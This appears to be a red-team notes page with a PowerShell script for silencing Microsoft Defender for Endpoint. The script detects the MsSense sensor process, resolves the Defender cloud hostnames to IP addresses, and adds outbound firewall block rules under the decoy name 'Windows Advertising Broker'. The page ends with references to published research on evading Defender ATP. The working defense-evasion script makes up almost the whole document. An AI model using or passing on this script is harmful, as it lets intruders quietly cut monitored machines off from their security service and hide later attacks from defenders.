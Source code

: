 # Firewalls

```powershell
# Define Cloud Security Vendor Address
# Windows Defender ATP

$MSATP1 = "securitycenter.windows.com"
$MSATP2 = "winatp-gw-cus.microsoft.com"
$MSATP3 = "winatp-gw-eus.microsoft.com"
$MSATP4 = "winatp-gw-weu.microsoft.com"
$MSATP5 = "winatp-gw-neu.microsoft.com"
$MSATP6 = "us.vortex-win.data.microsoft.com"
$MSATP7 = "eu.vortex-win.data.microsoft.com"
$MSATP8 = "psapp.microsoft.com"
$MSATP9 = "psappeu.microsoft.com"
$MSATPURLs = $MSATP1,$MSATP2,$MSATP3,$MSATP4,$MSATP5,$MSATP6,$MSATP7,$MSATP8,$MSATP9

# Checking for Behavioural Analysis AV security product processes and adding outbound FW blocks
Write-Output ("[*] Checking for Behavioural Analytics AV security product processes and adding outbound firewall block rules" + "`n")
[CmdletBinding()]
$processnames = Get-Process | Select-Object ProcessName
Foreach ($ps in $processnames) {
    if ($ps.ProcessName -like "*MsSense*") {
        Write-Output ("[*] Defender ATP process " + $ps.ProcessName + " is running." + " Resolving ATP FQDN IP's and blocking outbound connections.")
        $MSATPCouldIPs = $MSATPURLs | foreach {[System.Net.Dns]::GetHostAddresses($_)} | Select-Object -ExpandProperty IPAddressToString
        Foreach-Object {
            New-NetFirewallRule -DisplayName "Windows Advertising Broker" -Direction Outbound -Action Block -RemoteAddress "$_" -Profile Any
            Write-Host "$_ - Outbound Firewall Block Was Added: $?"
        }
    }
}
```

---
## References

- [Silencing Microsoft Defender for Endpoint using firewall rules](https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18)

- [Blackhat: Red Team Techniques for Evading, Bypassing, and Disabling MS Advanced Threat Protection and Advanced Threat Analytics](https://www.blackhat.com/docs/eu-17/materials/eu-17-Thompson-Red-Team-Techniques-For-Evading-Bypassing-And-Disabling-MS-Advanced-Threat-Protection-And-Advanced-Threat-Analytics.pdf)